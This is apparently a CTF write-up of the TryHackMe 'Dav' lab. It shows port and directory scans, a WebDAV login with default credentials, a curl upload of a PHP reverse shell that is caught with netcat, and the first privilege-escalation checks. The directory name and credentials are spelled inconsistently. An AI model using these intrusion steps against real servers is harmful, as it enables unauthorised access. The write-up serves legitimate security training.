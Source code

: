 ```yaml
---
title: TryHackMe - Dav
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, http, gobuster, crack, SUID]
img_path: /assets/img/Dav
image:
    path: 0.jpeg
---
```


# Dav

Boot2root machine for FIT and bsides guatemala CTF.  

# Tasks

Read user.txt and root.txt.  

# nmap

## `ip = 10.10.127.205`

## Command 
```sh
 nmap -sV -sC -A -v 10.10.127.205 | tee nmap.txt
```

## Results
```sh
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_ Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
106/tcp filtered pop3pw
```

# http_80

To Do List  

- run gobuster  
- surf the web  
- view source code  
- robots.txt  
- gobuster  

![](/assets/img/Dav/1.png))

### gobuster
```sh
 gobuster dir -u http://10.10.127.205 -w /usr/share/wordlists/dirb/common.txt
 ```

![](/assets/img/Dav/2.png))

We get this directory known as `/weddav`  
![](/assets/img/Dav/3.png))

Here i need a username and password.  
Did some research and got this default credentials.  
![](/assets/img/Dav/4.png))

User = `wampp`  
pass = `xampp`  
Entering the credentials i get a file `passwd.dav`file.  
![](/assets/img/Dav/5.png))

`=wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91`
Cracked the hash but got nothing much.  

I searched for web-dav vulnerability and got that we can upload files to it's server.  
I think if I can upload the shell and connect to it we can login into the system easily.  

I used a php reverse shell , changed the ip and uploaded it  
```sh
curl --user "wamp:xamp" http://10.10.127.205/webdev/ --upload-file reverseshell.php -v
```
![](/assets/img/Dav/6.png))

Run nc cat on my machine then run the code.  
Got the shell and stabilized it.  
![](/assets/img/Dav/7.png))  


Now it's just a matter of looking for the `user.txt `   
![](/assets/img/Dav/8.png))

# Privilege Escalation
For this i always first run  
- `sudo -l`
- cat `/etc/crontab`

## sudo -l
![](/assets/img/Dav/9.png))  
This was simple since the user can read any file with `sudo` without a password.  